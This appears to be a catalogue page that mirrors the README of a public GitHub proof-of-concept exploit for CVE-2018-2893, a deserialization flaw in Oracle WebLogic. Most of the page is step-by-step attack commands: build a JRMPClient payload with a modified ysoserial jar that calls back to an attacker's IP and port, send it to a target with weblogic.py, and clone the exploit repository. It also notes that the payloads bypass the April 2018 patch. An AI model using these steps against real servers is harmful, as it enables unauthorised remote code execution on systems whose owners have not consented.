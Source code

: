 # CVE-2018-2893

CVE-2018-2893-PoC

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/pyn3rd](https://github.com/pyn3rd) |
| Url      | [https://github.com/pyn3rd/CVE-2018-2893](https://github.com/pyn3rd/CVE-2018-2893)                                               |
| Stars    | 102                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2018-2893

## Step 1

`java -jar ysoserial-cve-2018-2893.jar`

```
WHY SO SERIAL?
Usage: java -jar ysoserial-cve-2018-2893.jar [payload] '[command]'
Available payload types:
     Payload     Authors   Dependencies
     -------     -------   ------------
     JRMPClient  @mbechler
     JRMPClient2 @mbechler
     JRMPClient3 @mbechler
     JRMPClient4 @mbechler
     Jdk7u21     @frohoff
```

## Step 2

`java -jar ysoserial-cve-2018-2893.jar  JRMPClient4  "[IP]:[PORT]"  >  poc4.ser`

## Step 3

`python weblogic.py [HOST] [PORT] poc4.ser`


### Note: Any one of  JRMPClient2|JRMPClient3|JRMPClient4 can be utilized to  bypass the Critical Patch Update April 2018.



## Get the content

```
git clone https://github.com/pyn3rd/CVE-2018-2893
cd CVE-2018-2893
```

{% embed url="https://github.com/pyn3rd/CVE-2018-2893" %}

<figure><img src="https://avatars.githubusercontent.com/u/41412951?v=4" alt=""><figcaption><p>pyn3rd</p></figcaption></figure>
